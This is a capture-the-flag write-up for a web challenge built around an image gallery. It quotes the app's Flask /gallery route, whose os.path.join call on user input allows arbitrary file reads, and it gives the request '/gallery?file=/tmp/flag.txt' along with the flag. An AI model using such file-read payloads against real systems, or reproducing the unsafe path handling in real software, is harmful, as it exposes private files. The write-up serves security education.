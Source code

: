 # challenge name
126 solves / 304 points
> Put up some fun images for everyone in this amazing image gallery!

## About the Challenge
We were given a web and a source code, the web has many functionalities such as:

- We can upload an image
- We can read arbitrary file

Here is the preview of the website.

![1](images/image.png)

## How to Solve?
If we check the `Dockerfile` file, the flag was located in `/tmp/flag.txt`
```
...
COPY flag.txt /tmp/flag.txt
...
```

And because we can read any file using `/gallery` endpoint.

```py
@app.route('/gallery')
def gallery():
    if request.args.get('file'):
        filename = os.path.join('uploads', request.args.get('file'))
        if not check_file_path(filename):
            return redirect(url_for('gallery'))

        return send_file(filename)

    image_files = [f for f in os.listdir(
        app.config['UPLOAD_FOLDER'])]
    return render_template('gallery.html', images=image_files)
```

We can read the flag using this `/gallery?file=/tmp/flag.txt`.

![2](images/image2.png)

```
nbctf{w0nd3rh0000yyYYyYyyYyyyYyYYYyy!}
```
